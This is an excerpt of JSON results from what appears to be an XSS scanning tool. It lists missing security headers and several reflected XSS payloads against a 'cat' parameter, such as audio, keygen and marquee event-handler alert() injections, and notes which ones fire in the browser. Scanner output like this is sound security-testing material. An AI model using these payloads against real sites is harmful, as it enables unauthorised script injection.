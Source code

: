 ```
        "description": "Not Set X-Frame-Options"
    }, {
        "id": 5,
        "type": "MIDUM",
        "issue": "STATIC ANALYSIS",
        "method": "GET",
        "param": "-",
        "payload": "<original query>",
        "description": "Not Set CSP"
    }, {
        "id": 6,
        "type": "INFO",
        "issue": "REFLECTED",
        "method": "GET",
        "param": "cat",
        "payload": "rEfe6",
        "description": "reflected parameter"
    }, {
        "id": 7,
        "type": "INFO",
        "issue": "FILERD RULE",
        "method": "GET",
        "param": "cat",
        "payload": "onhwul=64",
        "description": "not filtered event handler on{any} pattern"
    }
....
, {
        "id": 17,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<audio src onloadstart=alert(45)>",
        "description": "reflected HTML5 XSS Code"
    }, {
        "id": 18,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<keygen autofocus onfocus=alert(45)>",
        "description": "reflected onfocus XSS Code"
 ....
    }, {
        "id": 24,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<marquee onstart=alert(45)>",
        "description": "triggered <marquee onstart=alert(45)>"
    }]
}
```
(Items marked as `triggered` are actually payloads that work in the browser.)
